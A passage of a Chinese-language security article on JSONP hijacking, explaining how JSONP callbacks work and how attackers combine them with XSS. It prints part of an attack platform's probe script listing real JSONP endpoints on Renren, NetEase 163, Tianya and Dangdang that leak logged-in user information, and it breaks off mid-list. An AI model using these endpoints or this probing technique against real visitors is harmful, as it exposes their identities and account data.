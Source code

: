 # JSONP挖掘与高级利用

**本文仅提供给爱好者学习交流，切勿用于其他`非法用途`**

0x00 参考资料
=====

1.  [利用JSONP进行水坑攻击 - 乌云知识库](http://drops.wooyun.org/papers/6612)
2.  [JSONP 安全攻防技术 - 知道创宇](http://blog.knownsec.com/2015/03/jsonp_security_technic/)

0x01 漏洞之我见
=====

> 这里不多说JSONP的介绍等，大家都懂。

这里，我站在程序员的角度去解释JSONP的正常使用。  
首先，定义一个用于接收数据的回调函数，比如：

```
function myData(data) {
    console.log('[!] DATA: ', data);
}

```

然后呢，我们就采用`<script>`标签去跨域获取数据：

```
<script src="http://root.cool/userinfo?fn=myData"></script>

```

当获取完如上url的内容后，会自动解释成`js`代码执行。由此来看，以上url访问输出的结果类似如下：

```
myData([{nickname: 'ANT', weibo: 'http://weibo.com/antoor'}])

```

其实就是执行了我们刚刚定义的`myData`函数并把需要的数据当作参数传入了进去而已。  
这样，我们就能理所当然地在`myData`函数中就获取到了我们所需要的数据。

**然后，我们站在攻击者的角度去想，如何最大化利用这个给程序员带来的方便的同时所带来的`安全隐患`？**

0x02 测试与构思
=====

这个漏洞和`xss`结合是非常完美的一种攻击手段，而这个功能，在蚁逅平台中的`蚁弹超人`早已经很容易地得到实现。 我们还是和程序员一样，先定义一个用来接收数据的函数，然后把我们挖掘到的`JSONP`接口进行逐个测试获取信息并返回，这样，就达到了我们获取目标信息的手段。  
用蚁弹超人中的`JSONP探测`插件的服务端代码来解释（已经去掉一些不好的接口）：

```
(function(API, AUTOSTART) {
    var JSONP = {
        hooks: [{
            name: '人人网1',
            link: 'http://base.yx.renren.com/RestAPI?method=api.base.getLoginUser&format=2&callback='
        }, {
            name: '人人网2',
            link: 'http://passport.game.renren.com/user/info?callback='
        }, {
            name: '网易163',
            link: 'http://comment.money.163.com/reply/check.jsp?time=1367240961474&callback='
        }, {
            name: '天涯论坛1',
            link: 'http://passport.tianya.cn/online/checkuseronline.jsp?callback='
        }, {
            name: '当当网',
            link: 'http://message.dangdang.com/api/msg_detail.php?customer_id=o4P00TweebicwjhS72NWew%3D%3D&data_type=jsonp&pageindex=1&module=1&pagesize=10&_=1416721945308&callback='
```